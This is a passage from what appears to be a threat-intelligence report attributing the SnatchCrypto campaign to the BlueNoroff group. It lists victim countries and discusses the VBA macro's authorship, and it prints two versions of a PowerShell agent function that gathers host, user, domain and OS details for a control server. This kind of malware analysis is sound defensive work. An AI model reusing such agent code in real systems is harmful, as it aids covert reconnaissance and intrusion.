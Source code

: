 BlueNoroff victims
In addition to the above-mentioned countries, we observed uploads of weaponized documents and compromised Metamask extensions from Indonesia, the UK, Sweden, Germany, Bulgaria, Estonia, Russia, Malta and Portugal.
SnatchCrypto’s attribution
We assess with high confidence that the financially motivated BlueNoroff group is behind this campaign. As a result of understanding the SnatchCrypto campaign’s full chain of infection, we can identify several overlaps with the BlueNoroff group’s previous activities.
VBA macro authorship
Analysis of the VBA macro from the remote template used during the initial infection revealed that the code matched the style and technique previously used by Clément Labro, an offensive security researcher from the company SCRT based out of Morges, Vaud, Switzerland. The original code for process injection from the VBA macro hasn’t been found in the public, so either Clément has privately developed it and later it became available to BlueNoroff, or someone adapted his other VBA code, such as the VBA-RunPE project.
PowerShell scripts overlap
One tool this group relied heavily on is the PowerShell script. Through an initial infection they deployed PowerShell agents on several victims, sending basic system information and executing commands from the control server. They have utilized this PowerShell continuously, while adding small updates.



PowerShell script used in previous BlueNoroff campaign
PowerShell script used in 2021 campaign



function GetBasicInformation
{
$HostName = [System.Environment]::MachineName;
$UserName = [System.Environment]::UserName;
$DomainName = [System.Environment]::UserDomainName;
$CurrentDir = [System.Environment]::CurrentDirectory;
$BinPath = [System.Environment]::GetCommandLineArgs()[0];
$OSVersion = [System.Environment]::OSVersion.VersionString;
$Is64BitOS = [System.Environment]::Is64BitOperatingSystem;
$Is64BitProcess = [System.Environment]::Is64BitProcess;
$PSVersion = ‘PS ‘ + [System.Environment]::Version;
$BasicInformation = $HostName + ‘|’ + $UserName + ‘|’ + $DomainName + ‘|’ + $CurrentDir + ‘|’ + $BinPath + ‘|’ + $OSVersion + ‘|’ + $Is64BitOS + ‘|’ + $Is64BitProcess + ‘|’ + $PSVersion;
return $BasicInformation;
}function ProcessCommand
{


function GetBI
{
$HostName = [System.Environment]::MachineName;
$UserName = [System.Environment]::UserName;
$DomainName = [System.Environment]::UserDomainName;
$CurrentDir = [System.Environment]::CurrentDirectory;
$BinPath = [System.Environment]::GetCommandLineArgs()[0];
$OSVersion = [System.Environment]::OSVersion.VersionString;
$Is64BitOS = [System.Environment]::Is64BitOperatingSystem;
$Is64BitProcess = [System.Environment]::Is64BitProcess;
$PSVersion = [System.Environment]::Version;$BasicInformation = $HostName + ‘|’ + $UserName + ‘|’ + $DomainName + ‘|’ + $CurrentDir + ‘|’ + $BinPath + ‘|’ + $OSVersion + ‘|’ + $Is64BitOS + ‘|’ + $Is64BitProcess + ‘|’ + $PSVersion;return $BasicInformation;
}function ProcessCommand
{
